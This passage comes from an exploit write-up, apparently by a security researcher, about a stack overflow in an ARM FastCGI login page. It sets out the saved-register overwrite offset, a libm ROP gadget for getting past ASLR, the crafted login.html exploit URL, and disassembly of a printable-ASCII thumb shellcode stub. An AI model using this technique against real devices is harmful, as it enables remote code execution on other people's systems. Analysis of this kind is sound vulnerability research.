 ~~~
55958:       e8bd8810        pop     {r4, fp, pc}
~~~

In other words, after 160 bytes we start overwriting saved R4-register, then FP
and finally PC-register which controls execution flow. In terms of exploiting
this, below are the highlights:

1. Stack is executable
2. ASLR is used and affects all parts, except the executable's own executable code,
all these memory addresses contain an initial zero-byte
3. Fast CGI is used and if the FCGI-binary crashes it will not be restarted by
the web server immediately. The FCGI-process is checked and restarted about
every 10 minutes.
4. The pthread-library is used to provide a random stack-location at every
CGI-call.
5. The least random parts of the binary I found where in shared libraries.

Since the location of shared libraries seems most predictable, I decided to use
these for ROP. I looked around on the stack and found the address to the query
string, i.e. everything after '?' in the URL. This value is placed at 'SP +
48'. In other words, if we perform 11 pop operations and then pop PC we
could use that address. The new exploit-URL is shown below:

~~~
GET /login.html?[shellcode]&DOCUMENT_ROOT=[Exploit]
~~~

The necessary code to perform 12 pop operations ending in 'pop pc' was found in
several shared libraries, one is '/lib/libm-0.9.32.1.so'. The two operations below
make up 12 pop operations where the last pop is program counter. 

~~~
2260:       e28dd010        add     sp, sp, #16
2264:       e8bd8f70        pop     {r4, r5, r6, r8, r9, sl, fp, pc}
~~~

We now have a somewhat more reliable location to jump to, however there are some
other considerations:

1. The data in the new shellcode-location is not URL-decoded and therefore we
are limited in which characters we can use. To allow exploitation from JavaScript,
I will limit myself to printable ASCII characters.
2. The memory location we jump to is actually minus 1 of where the shellcode is.
The practical implications of this is that we need to ensure that the null-byte
plus our shellcode does not create any damaging shellcode that breaks our future
code.

Because only printable characters are allowed, this location is not used for the
whole shellcode, but just another jump to the real shellcode. The real shellcode
can be placed in the DOCUMENT_ROOT-parameter. The location of this shellcode after
we have made the second jump is at 'SP - 210'.

An example of how this code can be created with printable characters is shown
below (first two instructions set up thumb mode and is not part of the shellcode):

~~~
$ arm-linux-gnueabi-as -mthumb b_js.s && arm-linux-gnueabi-objdump -d a.out

a.out:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:	e28f6001 	add	r6, pc, #1
   4:	e12fff16 	bx	r6
   8:	466f      	mov	r7, sp
   a:	3f6e      	subs	r7, #110	; 0x6e
   c:	3f6e      	subs	r7, #110	; 0x6e
~~~